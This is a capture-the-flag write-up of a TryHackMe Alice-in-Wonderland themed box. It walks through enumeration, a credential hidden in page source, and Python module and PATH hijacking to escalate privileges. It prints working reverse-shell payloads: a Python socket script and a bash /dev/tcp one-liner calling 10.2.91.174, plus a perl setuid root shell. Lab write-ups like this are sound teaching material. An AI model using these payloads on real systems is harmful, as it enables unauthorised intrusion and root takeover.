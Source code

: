 > TryHackMe CTF

 - I started with regular nmap enumaration and found http and ssh were running
 - Going to the website and viewing source, I foud the `/img` directory
 - Three images were in the directory, so I downloaded all three and ran steg checks with `https://futureboy.us/stegano/decinput.html`
 - The only one with info was the white rabbit picture, with resulted in this:
```
follow the r a b b i t
```
- I had previously run gobuster to enumerate subdirectories and found the directory `/r`
```shell
# command
gobuster dir -u <http://IP> -w /usr/share/dirb/wordlists/common.txt
```
- Following the rabbit logic, I nagivated to `/r/a/b/b/i/t` (there were quotes on each page)
- Viewing source on the `/t` page, I foud an interesting line
```html
<p style="display: none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail</p>
```
- I tried logging in to ssh using the username `alice` and `HowDothTheLittleCrocodileImproveHisShiningTail` as the password (it worked!)
- Listing out files, I found a `root.txt` file and a python script
- I ran `nano` on the python script, which turned out out to be a poem that just output random lines when run
- `sudo -l` showed that alice had root privileges for python on that specific file, so I decided to exploit that
- I went to my fav place for priv escelation scripts, `gtfobins` and found one for python
- I modified it like this, but it can only be used with that specific file so I ended up stuck for a bit
```python
sudo python3 -c 'import os; os.system("/bin/sh")'
```
- I decided to work on finding `user.txt` which ended up being it the root directory (for whatever reason) so I got that with `cat /root/user.txt`
- Looking at the python script again, I noticed that it imported the random module to run. I had to do some reasearch, but it turns out this can be exploited
- If we create a python script called `random.py` this will be imported into the python script before the actual random module, which means we can get a reverse shell
```python
# script
import socket
import subprocess
import os

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM);
s.connect(("10.2.91.174",7777));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
os.putenv("HISTFILE", "/dev/null")
p=subprocess.call(["/bin/bash","-i"]);
```
- then we set up a listener on port 7777
```shell
nc -lvnp 7777
```
- and deploy
```shell
sudo -u rabbit /usr/bin/python3.6 /home/alice/nameofthepscriptimlazy
```
- Navigating into `/home/rabbit` there is a suid file called `teaParty`
- Running it outputs this:
```
Probably by Wed, 13 Dec 2023 02:10:07 +0000

Welcome to the tea party!
The Mad Hatter will be here soon.
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
```
- I copied it over to my system `scp teaParty > isabelle@<attack machine IP>`
- Similar to the python script, it has a relative call, this time to `date`
- So we employ similar tactics
- cd into `tmp` and create a `date` rev shell script
- nano was acting wild so I just used echo like this:
```shell
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/10.2.91.174/9999 0>&1' > date
```
- and ran these commands
```shell
chmod 755 date
export PATH=/tmp:$PATH
```
- now it references the `/tmp` file instead of the actual date module
- I set up a listener on my machine `nc -lvnp 9999`
- and ran the script `./teaCup`
- The new user is `hatter`. I CDed into the hatter directory, where there was a file `password.txt` which contained `WhyIsARavenLikeAWritingDesk?`
- I was a bit stuck at this point, but I wanted a more stable shell so I SSHed into the hatter profile using the password
- I ran `linPeas` on the profile which exposed a perl setuid vulnerability
- I ran this command
```shell
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
- and got a root shell
- `cat /home/alice/root.txt` and got the flag

